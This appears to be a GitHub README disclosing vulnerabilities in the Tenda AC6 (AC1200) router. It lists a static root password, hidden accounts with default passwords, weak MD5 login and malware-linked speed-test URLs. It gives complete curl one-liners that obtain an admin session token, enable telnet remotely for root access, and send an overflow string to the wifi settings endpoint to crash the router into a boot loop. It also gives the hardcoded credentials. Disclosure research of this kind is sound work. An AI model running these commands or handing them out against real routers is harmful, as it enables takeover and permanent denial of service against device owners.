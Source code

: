 <table>
<tr>
	<td colspan=2><b><h2 align=center>Equipment Overview
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_174832.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_175341.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20201024_163850.jpg">
<tr>
	<td colspan=1> <b>Router: 
	<td colspan=1>Tenda AC1200 (Model AC6) Smart Dual Band WiFi Router
<tr>
	<td colspan=1><b>Firmware Version:
	<td colspan=1>V15.03.06.51_multi 
<tr>
	<td colspan=1><b>Linux Version:
	<td colspan=1>Linux linux-e06efcf50f50 3.10.90 #5 Thu Oct 8 17:04:23 CST 2020 mips GNU/Linux
<tr>
	<td colspan=1><b>GCC Version:
	<td colspan=1>4.4.7
<tr>
	<td colspan=1><b>Busybox Version:
	<td colspan=1>v1.19.2
<tr>
	<td colspan=1 width=25%><b>Busybox Functions:
	<td colspan=1>[, [[, adduser, arp, arping, ash, awk, brctl, cat, chmod, clear, cp, cttyhack, cut, date, deluser, depmod, echo,
        egrep, eject, env, expr, false, fdisk, fgrep, free, grep, halt, ifconfig, init, insmod, kill, killall, killall5,
        linuxrc, ln, login, ls, lsmod, mdev, mkdir, modinfo, modprobe, more, mount, mountpoint, mv, netstat, nslookup,
        passwd, ping, ping6, poweroff, printf, ps, pstree, pwd, reboot, reset, rm, rmdir, rmmod, route, runlevel, sed, sh,
        sleep, softlimit, split, sulogin, tar, telnet, telnetd, test, tftp, top, touch, traceroute, traceroute6, true, tty,
        umount, uname, unzip, uptime, usleep, vconfig, vi, wget, yes
<tr>
	<td colspan=1><b>Sys Type: 
	<td colspan=1>RTL8197F
<tr>
	<td colspan=1><b>Hardward Access: 
	<td colspan=1>SPI, UART
<tr>
	<td colspan=1><b>SPI Flash:
	<td colspan=1>25Q64JVSIQ (<a href="https://github.com/cecada/Tenda-AC6-Root-Acces/blob/main/docs/w25q64jv%20spi%20revc%2006032016%20kms.pdf">Spec Sheet</a>)
<tr>
	<td colspan=1><b>HTTP Admin Access: 
	<td colspan=1>192.168.0.1 (default) or 192.168.1.1
</table>

Found issues: 

* CVE-2020–10988 overview: root password is Fireitup, and static. This vulnerability persists to this model and version.
* HTTP admin access has a static username (admin)
* Admin password is only secured with a simple MD5 hash
* Default speed test settings located on mtdbblock5 point to urls which download malware:
  * speedtest.addr.list7=sh.vnet.cn/downloads/elive1.16.exe?0.4812286039814353 ([Hybrid Report](https://www.hybrid-analysis.com/sample/4c15a77c71218d7feef52d9c5504c0d32d8e580819186a4bb708d3c120e7b15e))
  * speedtest.addr.list6=viewer.d.cnki.net/CNKI%20E-Learning%202.4.1-20140714.exe ([Hybrid Report](https://www.hybrid-analysis.com/sample/bfa165373e5f5ed6ba4e73440bc9bb94d6089d8edb784db5a4a011d8ee87f790/5f8440c84e139b56f00f0728))
* Default system accounts (admin, support, user, and nobody) are hidden from the HTTP admin console, have shell access, and all have 1234 as the password.
* It is possible to form an HTTP post will result in a denial of service by causing the router to crash and enter a boot loop.

<h2>Logging in / Getting Admin Password</h2>
	Router admin is done via a web portal which is defaulted to 192.168.0.1. The only credentials which is asked for is the password. The username appears to be static admin. Prior to the HTTP POST request the client hashes the password using MD5. A sample curl would look like:

```
curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest'
-H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4'
--url 'http://192.168.0.1/login/Auth'
```
2a3ffeeda250174eaeba880553e0dfd4 = mathafter067

This results in 301 redirect to main.html, and of critical importance, a cookie is set with the hash + a pseudo-random 6 byte string. For example: 2a3ffeeda250174eaeba880553e0dfd4<b>piacvb</b> With this "token" we can do a lot of harm. 

Given the simplicity of authentication, the acceptance, and auto-population of default password, creating a brute-force script to find the password, and thus the MD5 hash is trivial.

<h2>Turning on Telnet</h2>
With this router, telnet is not on by default. I discovered a method, once you are connected and brute-forced the admin password you can turn it on without having to physically access the hardware. 

```
ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' 
-H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' 
--url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk -X 'GET' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' 
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H "Cookie: password=$ahash" -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' 
-H 'Connection: close' --url 'http://192.168.0.1/goform/telnet'; echo -e "\n\nSuccess!"; telnet 192.168.0.1; fi
```
Because I am lazy, I created a "one-liner" which will:
* Grab the "token"
* Check for success
* Turn on telnet
* Launch telnet

Telnet will ask for the username/password which is root/Fireitup
Device R00ted with no access to the hardware needed

<h2>Denial of Service: Crash it</h2>
Once you have brute forced the admin password it is possible to send an HTTP POST request which will trigger a crash, and result in a boot-loop.

```
overflow=$(perl -e 'print "A" x 1024');ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' 
--data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' --url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); 
if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk 
-X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' 
-H 'Referer: http://192.168.0.1/wireless_ssid.html?random=0.54930120660236&' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' -H “Cookie: password=$ahash” -H 'Sec-GPC: 1' -b "password=$ahash" 
--data-binary "wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FC6EE0&ssid_5g=Tenda&hideSsid=0&hideSsid_5g=0&wrlPwd=$overflow&wrlPwd_5g=mathafter067" 
--url 'http://192.168.0.1/goform/WifiBasicSet';fi
```
Like the telnet vuln, I scripted this out. 
* Generate an overflow string
* Get login "token"
* Check if the login was a success or not
* If it was, post overflow string as a setting change to the wifi password

The router will crash, and only a physical hard factory reset will restore it. 

<table>
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201441.png"> 
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201653.png"> 
</table>
